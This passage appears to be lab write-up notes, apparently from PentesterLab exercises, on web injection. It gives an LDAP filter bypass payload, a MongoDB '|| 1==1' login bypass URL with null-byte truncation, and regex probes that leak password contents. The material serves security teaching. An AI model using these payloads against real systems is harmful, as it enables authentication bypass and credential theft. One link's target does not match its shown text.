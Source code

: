If the filter is (cn=\[INPUT]) we wont be able to inject.\
LDAP uses wildcard very often to match any values. \
We can use Null Byte to remove anything added by the server side code.

We have the following endpoint:

```
/?name=hacker&password=hacker
```

To understand LDAP Filter, we can try including wildcard to different parameters.

This helps us in understanding that the filter used here can be of the type:

```
(&(cn=[INPUT1])(userPassword=HASH[INPUT2])
```

because, if we put \* as username and hacker as password, we log in. But not true the other way round. Thus we can only inject in the first field.

To bypass all of this, we can use the following:

```
hacker)(cn=*))%00
```

## MongoDB Injection

The famous 1=1 condition

```
|| 1==1
```

To comment rest of the SQL Query we can use a NULL Byte or // or \<!--

On error we get error message like

> Can't canonicalize query

### Mongo - 1

```
/?username=admin'+||'1'=='1'+%00&password=admin
```

### Mongo - 2

In this part, we try to gather more information from the database.

We can fuzz the application to know more about the parameters.

* if we access [/?search=admin'%20%26%26%20this.password.match(/.\*/)%00](https://pentesterlab.com/?search=admin%27%20%26%26%20this.password.match\(/.\*/\)%00): we can see a result.
* if we access [/?search=admin'%20%26%26%20this.password.match(/zzzzz/)%00](https://pentesterlab.com/?search=admin%27%20%26%26%20this.password.match\(/zzzzz/\)%00): we cannot see a result.
* if we access [/?search=admin'%20%26%26%20this.passwordzz.match(/.\*/)%00](https://pentesterlab.com/?search=admin%27%20%26%26%20this.passwordzz.match\(/zzzzz/\)%00): we get an error message (since the field passwordzz does not exist).
